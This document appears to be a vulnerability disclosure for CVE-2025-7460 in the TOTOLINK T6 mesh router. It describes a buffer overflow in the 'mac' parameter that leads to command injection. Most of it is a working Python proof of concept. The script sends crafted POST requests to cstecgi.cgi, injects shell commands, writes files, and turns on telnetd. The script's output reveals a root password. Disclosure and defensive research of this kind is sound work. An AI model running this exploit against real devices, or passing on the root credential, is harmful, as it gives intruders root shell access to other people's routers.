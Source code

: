 # [CVE-2025-7460](https://www.cve.org/CVERecord?id=CVE-2025-7460)

# Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a buffer overflow vulnerability that lead to command injection. This vulnerability can be triggered through the topicurl `setWiFiAclRules`. An attacker can implement a RCE attack by sending a malicious HTTP POST request.

# Vulnerability details

The `mac` parameter can cause a buffer overflow of `local_mac` due to the lack of length validation.

![image-1](1/1.png)

Buffer `local_mac` can overflow to buffer `wlan_interface_1`

![image-2](1/2.png)

So that we can control buffer `wlan_interface_1` to trigger command injection

![image-2](1/3.png)

# POC

```python
import requests, time, sys, os
import socket
import http.server
import socketserver
import threading

def execute_short_command(target_ip, cmd):
    http_sv = "http://%s/cgi-bin/cstecgi.cgi" % target_ip
    
    payload = '''
    {
        "topicurl":"setWiFiAclRules",
        "addEffect":"2",
        "mac":"AAAAAAAAAAAAAAAA;%s;"
    }
    ''' % cmd
    
    res = requests.post(http_sv, data=payload)
    
    if res.status_code == 200:
        return True
    else:
        return False
        
def enable_telnetd(target_ip):
    return execute_short_command(target_ip, "telnetd")

def write_file(target_ip, script, file_path):
    http_sv = "http://%s/cgi-bin/cstecgi.cgi" % target_ip
    
    for c in script:
        payload = "echo -n '%s'>>%s" % (c, file_path)
        execute_short_command(target_ip, payload)
        
if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("[-] Usage: <%s> target_ip my_ip" % sys.argv[0])
        exit(0)
    
    target_ip = sys.argv[1]
    my_ip = sys.argv[2]
    
    execute_short_command(target_ip, "rm /tmp/n")
    print("[+] Writing file. Please wait...")
    
    write_file(target_ip, "pwned by Elvis!!!", "/tmp/n")
    
    print("[+] File Wrote. Check '/tmp/n' file")
    
    enable_telnetd(target_ip)
    print("[+] BOF -> Command injection turn telnetd on. Try root/KL@UHeZ0")
```

[Video](https://www.youtube.com/watch?v=x_Qc6wtcdbk)

# Credits

[Reisen_1943](https://anduinbrian.github.io/). He helped me to setup the device and found the login information for root account.
